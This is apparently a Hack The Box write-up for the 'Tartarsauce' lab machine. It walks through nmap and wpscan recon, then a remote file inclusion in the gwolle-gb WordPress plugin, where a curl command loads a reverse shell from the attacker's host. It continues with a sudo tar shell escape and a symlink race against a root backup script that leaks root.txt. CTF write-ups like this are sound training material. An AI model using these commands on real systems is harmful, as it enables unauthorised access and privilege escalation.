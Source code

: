 ```yaml
---
title: Tartarsauce
date: 2022-06-11 
categories: [HackTheBox, Medium]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```


![](https://i.imgur.com/EvyXmVu.png)

Tartarsauce is an odd box because I was never actually able to gain a root shell on it. The box deals a lot with using tar to pivot or escelate privileges. Its probably where the box got its name from. The author seemed to have a lot of fun putting little jokes throughout the box.

## Recon
---
`nmap -sVC 10.10.10.88`
``` 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-09 21:56 EDT
Nmap scan report for tartarsauce.htb (10.10.10.88)
Host is up (0.087s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.46 seconds
```


Wpscan Results
```
 [+] gwolle-gb
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2022-05-12T09:58:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.2.2
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
```
> You need to run an aggressive scan to find this pluggin
{: .prompt-warning }

Upon research into gwolle-gb, RFI is possible. In order to perform, have a file, preferably a php reverse shell, named wp-load.php and set it to root directory of your server. Run the curl command with the listener and reverse shell set up properly.

```
curl http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.19/
```

## User
---
Run `sudo -l` to discover:
```
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

[GTFObins](https://gtfobins.github.io/gtfobins/tar/#sudo) this

`sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

## Root
---
Interesting pspy output:
```
2022/06/11 01:14:10 CMD: UID=0    PID=28941  | /bin/bash /usr/sbin/backuperer
```

The script

```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

Basically, its backing up the webroot and pauses for 30 sec. After 30 seconds, it checks to see if there has been any changes to the webroot and the archive it just created. Any changes get diffed. Since diff outputs the differences and outputs into a file AND this is run as root, this is essentially root file read. Within that 30 second gap, remove an existing file and replace it with a symlink to root.txt. To see when the script executes, pay attention to pspy.

Demo:
```
www-data@TartarSauce.htb: $ ls 
index.html  robots.txt  webservices
www-data@TartarSauce.htb: $ echo fart > lmao.txt 
rm lmao.txt; ln -s /root/root.txt lmao.txt
www-data@TartarSauce.htb: $ ls
index.html  lmao.txt  robots.txt  webservices
www-data@TartarSauce.htb: $ cat /var/backups/onuma_backup_error.txt
[...]
------------------------------------------------------------------------ 
Integrity Check Error in backup last ran :  Sat Jun 11 01:24:15 EDT 2022
------------------------------------------------------------------------ 
/var/tmp/.b3db02ba045c0199cd5b9959f56dd73c3be1bd5e   
diff -r /var/www/html/lmao.txt /var/tmp/check/var/www/html/lmao.txt
1c1        
< 45e29bf14bc90a46f46d670baadffcab
---
> fart
```

This POC works. Just add in the `/root/root.txt` file and this should be pwned :)